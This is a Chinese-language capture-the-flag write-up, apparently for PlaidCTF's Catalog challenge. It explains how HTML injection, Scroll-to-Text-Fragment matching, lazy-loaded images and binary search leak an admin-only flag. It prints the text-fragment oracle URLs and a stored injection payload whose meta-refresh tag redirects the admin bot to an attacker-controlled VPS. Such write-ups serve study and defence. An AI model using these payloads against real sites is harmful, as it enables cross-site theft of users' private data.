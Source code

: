 

**已知的条件**

- CSP限制，可以使用 `<meta>`来控制跳转
- 两处 HTML 注入，登录失败处为反射型，issue提交处为存储型
- Admin Bot 会点击我们提交的 issue 
- Flag 在同源的一个页面，只有 admin 可以访问：http://catalog.pwni.ng/issue.php?id=3
- 引入了 lettering.js 以及 uBlock



**Twitter上@lbherrera_的思路**

1. 利用session会存储一定的 HTML 元素的条件，即使在登录状态下，利用 fetch no-cors 来更新界面，利用登录失败的注入，使得在同一 session 的界面得到一处 HTML 注入，这里就可以对 flag 所在页面进行 HTML 注入了
2. 利用 HTML 注入的条件，往页面中注入足够多的 `<br>`标签，使得 Flag 超出视窗阈值（ viewport threshold）的范围，并在`<br>`标签的最后加入一张懒加载图片，利用 Lazy Loading 来判断 Scroll Text Fragments 是否匹配到 Flag
3. 在自己的 VPS 上监听，在懒加载图片里填写远程请求的payload，如果匹配成功会滚动到对应位置，Flag 在懒加载图片的下面，所以一定会触发 Lazy Loading ，如果匹配失败则仍然在页面最上方，不会触发  Lazy Loading 



**利用二分的思想来 leak data**

题目中提示了 Flag 的正则为`/^PCTF\{[A-Z0-9_]+\}$/`

每次调用 Scroll Text Fragments 来匹配单个字符太慢了，根据其语法，我们可以实现一次完全匹配，并利用二分法的思想来减少发送次数，这也许就是出题人为什么说不用发送大量请求的原因了。

```
http://catalog.pwni.ng/issue.php?id=3#:~:text=T-,F,{,-}&text=T-,F,{,-0&text=T-,F,{,-1&text=T-,F,{,-2&text=T-,F,{,-3&text=T-,F,{,-4&text=T-,F,{,-5&text=T-,F,{,-6&text=T-,F,{,-7&text=T-,F,{,-8&text=T-,F,{,-9&text=T-,F,{,-A&text=T-,F,{,-B&text=T-,F,{,-D&text=T-,F,{,-E&text=T-,F,{,-F&text=T-,F,{,-G&text=T-,F,{,-H&text=T-,F,{,-I&text=T-,F,{,-J&text=T-,F,{,-K&text=T-,F,{,-L&text=T-,F,{,-M&text=T-,F,{,-N&text=T-,F,{,-O&text=T-,F,{,-P&text=T-,F,{,-Q&text=T-,F,{,-R&text=T-,F,{,-S&text=T-,F,{,-T&text=T-,F,{,-U&text=T-,F,{,-V&text=T-,F,{,-W&text=T-,F,{,-X&text=T-,F,{,-Y&text=T-,F,{,-Z&text=T-,F,{,-_
下一次匹配
http://catalog.pwni.ng/issue.php?id=3#:~:text=T-,F,{,-}&text=T-,F,{,-0&text=T-,F,{,-1&text=T-,F,{,-2&text=T-,F,{,-3&text=T-,F,{,-4&text=T-,F,{,-5&text=T-,F,{,-6&text=T-,F,{,-7&text=T-,F,{,-8&text=T-,F,{,-9&text=T-,F,{,-A&text=T-,F,{,-B&text=T-,F,{,-D&text=T-,F,{,-E&text=T-,F,{,-F&text=T-,F,{,-G&text=T-,F,{,-H&text=T-,F,{,-I
如果不在上面的一半，就匹配另一个范围
```

然后继续二分



## 做题步骤

1. 创建两个issue 

issue 1  ，假设 id 为 4，  该 issue 将使用`<meta>`引导 admin 跳到我们的 vps 上

```
id=4&title=xxxxxx&content=xxxxxx&image="><meta http-equiv="refresh" content="0;URL='http://vps/'"><img src="
```

issue 2 ，假设 id 为 5，该issue 会跳转到完成了 HTML注入的 flag 页面，利用 Scroll Text Fragment 以及 Lazy Loading 来完成侧信道
